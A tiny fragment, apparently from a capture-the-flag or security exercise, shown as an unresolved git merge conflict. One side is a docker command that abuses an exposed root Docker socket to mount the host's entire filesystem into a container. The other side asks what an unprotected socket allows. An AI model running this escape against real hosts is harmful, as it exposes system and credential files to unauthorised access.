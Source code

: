 <<<<<<< HEAD
docker -H unix:///root/docker.sock run -it -v /:/root:ro ubuntu:latest
=======
Someone left an unprotected socket laying around, what could you do with it?
>>>>>>> 19a4965a8e2af2c22eb0dcaac4f970e1db16b397
